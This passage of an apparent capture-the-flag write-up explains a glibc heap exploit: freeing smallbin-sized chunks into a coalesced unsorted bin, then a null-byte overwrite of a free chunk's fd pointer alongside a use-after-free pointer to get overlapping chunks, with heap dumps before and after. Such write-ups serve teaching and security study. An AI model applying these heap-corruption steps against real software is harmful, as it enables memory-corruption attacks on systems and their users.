 If we allocate chunks of size `0x90` or greater, we'll have smallbins instead
of fastbins. This means that when we free them, a large unsorted bin will be
created, and any new allocations with empty free lists will use the unsorted
bin to allocate memory. On top of that, because smallbins coalesce, the
unsorted bin will be larger than the length stored in the message chunk that
has a pointer to the struct, so we can successfully perform a null byte
overwrite.

Thus, we set up our heap like so:  
```  
0x6031c0:       0x0000000000000000      0x0000000000000031 <- chunk with use-
after-free pointer  
0x6031d0:       0x0000000000603200      0x00000000006032c0  
0x6031e0:       0x000000000040093c      0x0000000000400887  
0x6031f0:       0x000000b100000001      0x0000000000000041 <- newly allocated
chunks  
0x603200:       0x0000000a66666666      0x00007ffff7dd1ce8  
0x603210:       0x0000000000000000      0x0000000000000000  
0x603220:       0x0000000000000000      0x0000000000000000  
0x603230:       0x0000000000000000      0x0000000000000041  
0x603240:       0x0000000a66666666      0x00007ffff7dd1b78  
0x603250:       0x0000000000000000      0x0000000000000000  
0x603260:       0x0000000000000000      0x0000000000000000  
0x603270:       0x0000000000000000      0x0000000000000031  
0x603280:       0x0000000000000000      0x00007ffff7dd1b78  
0x603290:       0x0000000000000000      0x0000000000000000  
0x6032a0:       0x0000000000000000      0x0000000000000031  
0x6032b0:       0x0000000000603270      0x00007ffff7dd1b78 <- null byte
overwrite here  
0x6032c0:       0x0000000000000000      0x0000000000000000  
0x6032d0:       0x0000000000000000      0x00000000000000a1  
0x6032e0:       0x00007ffff7dd1b78      0x00007ffff7dd1b78  
0x6032f0:       0x0000000000000000      0x0000000000000000  
```  
Now, we can perform a null byte overwrite on `fd` on the chunk at `0x6032b0`,
corrupting the free list and giving us overlapping chunks.

Thus, we perform our null byte overwrite, and obtain our overlapping chunks:  
```  
0x6031c0:       0x0000000000000000      0x0000000000000031  
0x6031d0:       0x0000000000603060      0x0000000000603040  
0x6031e0:       0x000000000040093c      0x0000000000400887  
0x6031f0:       0x0000001100000000      0x0000000000000041 <- new string that
we control  
0x603200:       0x0000000000000000      0x0000000000000031 <- message chunk
that we can control  
0x603210:       0x0000000000603320      0x0000000000603340  
0x603220:       0x000000000040093c      0x0000000000400887  
0x603230:       0x0000001100000000      0x0000000000000041  
0x603240:       0x0000000000000000      0x0000000000000000  
0x603250:       0x0000000000000000      0x0000000000000000  
0x603260:       0x0000000000000000      0x0000000000000000  
0x603270:       0x0000000000000000      0x0000000000000031  
0x603280:       0x0000000000000000      0x0000000000000000  
0x603290:       0x0000000000000000      0x0000000000000000  
0x6032a0:       0x0000000000000000      0x0000000000000031  
0x6032b0:       0x00000000006032e0      0x0000000000603300  
0x6032c0:       0x000000000040093c      0x0000000000400887  
0x6032d0:       0x0000001100000000      0x0000000000000021  
0x6032e0:       0x0000000a6c6c6c6c      0x00007ffff7dd1b78  
0x6032f0:       0x0000000000000000      0x0000000000000021  
```

